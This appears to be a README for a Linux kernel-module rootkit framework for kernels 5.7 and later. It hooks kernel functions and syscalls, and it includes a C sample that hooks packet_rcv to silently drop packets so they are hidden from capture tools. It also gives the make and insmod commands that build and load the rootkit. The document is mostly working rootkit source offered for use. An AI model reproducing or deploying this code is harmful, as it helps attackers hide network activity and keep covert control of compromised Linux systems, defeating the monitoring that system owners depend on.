 # LKM Hijacking Framework (under construction)

- a small framework for hooking functions and syscalls for linux kernel module rootkits on linux kernel 5.7+

***tested on:***
```
# uname -a
Linux SniperX-D 5.8.0-48-generic #54~20.04.1-Ubuntu SMP Sat Mar 20 13:40:25 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### example for hiding packets (hooking packet_rcv):

a code sample for using the framework (see src/packet_hide.c):
```c
#include <linux/netfilter.h>
#include "function_hooking.h"

struct hooked_function packet_rcv; //the struct of a hooked function

int fake_packet_rcv(struct sk_buff *skb, struct net_device *dev,struct packet_type *pt, struct net_device *orig_dev)
{
	pr_info("im called! tpacket");
	consume_skb(skb); // "hide" the packet
	return 1;
}

int  init_packet_hide(void){
	pr_info("init_packet_hide");
	strcpy(packet_rcv.function_name,"packet_rcv"); //function's name
	packet_rcv.fake_function = &fake_packet_rcv; //fake function address
	hook_function(&packet_rcv); //hook the function
	return 1;
}

int exit_packet_hide(void){
	pr_info("exit_packet_hide");
	reset_function(&packet_rcv); //reset the function to its original state
	return 1;
}
```
to use the rootkit, run:
```sh
make

insmod hooking_test_lkm.ko
```
### live example:
![Live_example](live_example.gif)
